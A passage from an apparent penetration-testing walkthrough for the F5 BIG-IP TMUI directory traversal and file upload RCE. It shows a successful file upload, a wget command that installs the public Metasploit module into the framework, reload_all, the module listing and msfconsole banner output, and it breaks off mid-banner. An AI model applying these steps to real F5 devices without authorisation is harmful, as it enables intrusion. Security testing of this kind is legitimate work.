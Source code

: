 #### upload /tmp/1.txt Successful ！

## 0x04 MSF f5_bigip_tmui_rce 

https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb

#### msf use

`wget -P /usr/share/metasploit-framework/modules/exploits/linux/http/ https://raw.githubusercontent.com/rapid7/metasploit-framework/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb`

`reload_all`

`exploit/linux/http/f5_bigip_tmui_rce            2020-06-30       excellent  Yes    F5 BIG-IP TMUI Directory Traversal and File Upload RCE`

```
╭─root@kali ~ 
╰─# msfconsole 
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.87-dev                          ]
+ -- --=[ 2007 exploits - 1096 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to check out the result of hosts and services

msf5 > reload_all 
[*] Reloading modules from all module paths...
               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:                                
```
